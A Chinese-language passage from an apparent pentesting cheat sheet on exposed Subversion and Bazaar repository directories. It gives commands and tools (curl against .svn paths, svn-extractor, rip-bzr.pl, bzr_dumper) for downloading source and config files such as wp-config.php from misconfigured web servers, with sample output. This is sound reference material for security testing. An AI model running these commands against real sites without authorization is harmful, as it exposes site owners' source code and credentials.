## Subversion

### 示例（WordPress）

```powershell
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. 从http://server/path_to_vulnerable_site/.svn/wc.db下载svn数据库

   ```powershell
   INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
   ```

2. 下载有趣的文件

   * 移除\$sha1\$前缀
   * 添加.svn-base后缀
   * 使用哈希的第一个字节作为`pristine/`目录的子目录（本例中为`94`）
   * 创建完整路径，即：`http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base`

### 工具

#### svn-extractor

```powershell
git clone https://github.com/anantshri/svn-extractor.git
python svn-extractor.py –url "带有.svn的url"
```

## Bazaar

### 工具

#### rip-bzr.pl

```powershell
wget https://raw.githubusercontent.com/kost/dvcs-ripper/master/rip-bzr.pl
docker run --rm -it -v /path/to/host/work:/work:rw k0st/alpine-dvcs-ripper rip-bzr.pl -v -u
```

#### bzr_dumper

```powershell
git clone https://github.com/SeahunOh/bzr_dumper
python3 dumper.py -u "http://127.0.0.1:5000/" -o source
创建了一个独立树（格式：2a）                                                                                                                                                       
[!] 目标 : http://127.0.0.1:5000/
[+] 开始。
[+] 获取repository/pack-names
[+] 获取README
[+] 获取checkout/dirstate
[+] 获取checkout/views
[+] 获取branch/branch.conf
[+] 获取branch/format
[+] 获取branch/last-revision
[+] 获取branch/tag
[+] 获取b'154411f0f33adc3ff8cfb3d34209cbd1'
[*] 完成

$ bzr revert
 N  application.py
 N  database.py
```